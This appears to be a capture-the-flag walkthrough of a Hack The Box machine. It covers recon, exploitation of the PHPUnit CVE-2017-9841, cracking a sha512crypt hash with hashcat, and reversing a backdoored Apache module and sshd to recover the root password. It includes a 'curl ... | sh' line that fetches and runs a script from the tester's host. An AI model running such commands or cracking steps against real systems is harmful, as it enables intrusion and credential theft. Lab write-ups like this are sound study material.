


Let's start off with a rustscan.

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|\_  Supported Methods: GET POST OPTIONS HEAD
|\_http-server-header: Apache/2.4.41 (Ubuntu)
|\_http-title: Diana's Jewelry

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 01:18
Completed NSE at 01:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 01:18
Completed NSE at 01:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 01:18
Completed NSE at 01:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds

There are only 2 ports open.

Port 80:

Nothing interesting, but we find a link to a subdomain under the navigation bar STORE.

We'll add the store subdomain to /etc/hosts.

We've got a new website.

feroxbuster --url http://store.djewelry.htb/ -x html,php,js -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

200      GET      195l      475w     6215c http://store.djewelry.htb/
301      GET        9l       28w      325c http://store.djewelry.htb/images => http://store.djewelry.htb/images/
403      GET        9l       28w      283c http://store.djewelry.htb/.html
403      GET        9l       28w      283c http://store.djewelry.htb/.php
200      GET      195l      475w     6215c http://store.djewelry.htb/index.php
200      GET      229l      550w     7447c http://store.djewelry.htb/products.php
200      GET      122l      337w     4129c http://store.djewelry.htb/login.php
200      GET      134l      354w     4396c http://store.djewelry.htb/cart.php
301      GET        9l       28w      322c http://store.djewelry.htb/css => http://store.djewelry.htb/css/
301      GET        9l       28w      321c http://store.djewelry.htb/js => http://store.djewelry.htb/js/
301      GET        9l       28w      325c http://store.djewelry.htb/vendor => http://store.djewelry.htb/vendor/
301      GET        9l       28w      324c http://store.djewelry.htb/fonts => http://store.djewelry.htb/fonts/

/vendor looks interesting.

PHPUnit is vulnerable to CVE 2017-9841. [https://blog.ovhcloud.com/cve-2017-9841-what-is-it-and-how-do-we-protect-our-customers/](https://blog.ovhcloud.com/cve-2017-9841-what-is-it-and-how-do-we-protect-our-customers/)

We can get a shell to www-data with a simple one-liner.  
Another option is to use an exploit-db python code. [https://www.exploit-db.com/exploits/50702](https://www.exploit-db.com/exploits/50702)

We're in but it's only a half shell. We can't cd, however, we can ls and look around.

looking inside info. There is a hexadecimal code.

After decoding it, we find a sha512crypt $6$, SHA512 (Unix) hash. We'll have to remove the : before and after. Also make sure to remove the \\ escaping the $.

$6$zS7ykHfFMg3aYht4$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/

Let's use Hashcat to try and crack the password.

hashcat.exe -a 0 -m 1800 hash.txt rockyou.txt

We can now ssh into steven. Username steven doesn't work but steven1 works(we found it in /etc/passwd).

Let's get linpeas going.

steven@production:~$ curl 10.10.14.5/linpeas.sh | sh

It's vulnerable to polkit CVE. However, we can't write files nor use make.

There are interesting files in /var/mail/.

steven@production:/var/mail$ cat steven
From root@production  Sun, 25 Jul 2021 10:31:12 GMT
Return-Path: <root@production>
Received: from production (localhost \[127.0.0.1\])
        by production (8.15.2/8.15.2/Debian-18) with ESMTP id 80FAcdZ171847
        for <steven@production>; Sun, 25 Jul 2021 10:31:12 GMT
Received: (from root@localhost)
        by production (8.15.2/8.15.2/Submit) id 80FAcdZ171847;
        Sun, 25 Jul 2021 10:31:12 GMT
Date: Sun, 25 Jul 2021 10:31:12 GMT
Message-Id: <202107251031.80FAcdZ171847@production>
To: steven@production
From: root@production
Subject: Investigations

Hi Steven.

We recently updated the system but are still experiencing some strange behaviour with the Apache service.
We have temporarily moved the web store and database to another server whilst investigations are underway.
If for any reason you need access to the database or web application code, get in touch with Mark and he
will generate a temporary password for you to authenticate to the temporary server.

Thanks,
sysadmin

Something is up with the Apache service. Let's take a look.

/usr/lib/spache2/modules  
mod\_reader modified in May?

Let's try to look inside the file. I used [https://onlinedisassembler.com/](https://onlinedisassembler.com/) to take a look inside.

we decode the base64 code.

The next binary we need to take a look at is sshd.

I used ghidra and found a auth\_password function.

We'll need to convert the backdoor hex into something.

Let's arrange them in order and try it in cyberchef.

Note: you'll need to change 0x5b to 0xa5. I'm not sure why it's showing a different value.

Arrange the values in order and paste them into cyberchef.

We've got our root password!
